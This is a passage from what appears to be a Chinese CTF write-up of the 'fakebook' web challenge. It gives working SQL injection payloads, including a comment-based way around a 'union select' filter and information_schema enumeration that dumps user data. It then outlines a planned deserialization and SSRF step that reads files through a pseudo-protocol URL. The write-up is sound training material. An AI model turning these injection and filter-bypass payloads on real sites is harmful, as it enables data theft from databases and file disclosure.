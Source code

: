 ![img](https://img-blog.csdnimg.cn/20200717203648323.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3hqMjg1NTU=,size_16,color_FFFFFF,t_70)

```
?no=2-1		//回显正常，则该地方是数值型注入
?no=0 order by 4 --+		//4回显正常，5回显报错，回显为4
?no=0 union select 1,2,3,4 --+		//程序ban了我们的值，显示hack，需要绕过
```

这里发现是检测"union select"这个字符串的，我们需要绕过这个字符串的空格，我们尝试拿/**/或者++替换空格绕过

```
?no=0/**/union/**/select/**/1,2,3,4 --+		//成功绕过，得到回显位为2号位
```

#### SQL注入

```
?no=0/**/union/**/select/**/1,database(),3,4 --+
//库名 fakebook

?no=0/**/union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema="fakebook" --+
//表名 users

?no=0/**/union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name="users" --+
//字段名 no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
```

得到字段名后，我们读取数据

```
?no=0/**/union/**/select 1,group_concat(username,":",data),3,4 from users --+
```

发现是一个反序列化的东西，再看到报错提示是函数**unserialize()**

> a:O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:1;s:4:"blog";s:7:"sss.com";} 



在看了其他师傅的WP后，发现我们漏掉了一步，我们需要收集一些网站的信息，我们扫描网页文件，就可以看到**robots.txt**，这里提示我们有一个备份文件，我们下载下来

![img](https://img-blog.csdnimg.cn/20200717220000217.png)

发现这个类的名字叫**UserInfo**，有3个属性和4个函数（一个构造函数）发现这里只是GET上传，并没有黑名单和白名单，只有最后要符合一个正则表达式

其中有两个函数需要我们注意的一个get，一个isValidBlog（上面的正则表达式就在这儿）

- get方法通过curl发送请求，且并未对参数url进行过滤，这种不对用户可控参数过滤的，我们要重点注意
- isValidBlog函数是对blog参数进行的正则匹配，猜测对用户的输入格式进行了一定的限制
- getBlogContents函数调用了get函数，同样需要关注

> curl是一个利用url语法工作的传输工具，此例中的使用，即获得指定url的页面内容。详细内容，请自行查阅补充



接下来的东西，我认为需要猜。最开始时的用户页面no=1时，页面返回用户的用户名、密码、博客之类的消息。毫无疑问，页面是根据users表中no=1的这条数据，渲染的页面。因为回显，我们只证明了查询语句的第二个字段是username。其余三个字段并不明确，但我们可以猜测，应该和数据库表中的字段顺序相似。第四个字段应该就是data，而我们现在有一个现成的data数据，能否模拟下？

我们blog参数传参，拿伪协议读取flag内容交给blog参数
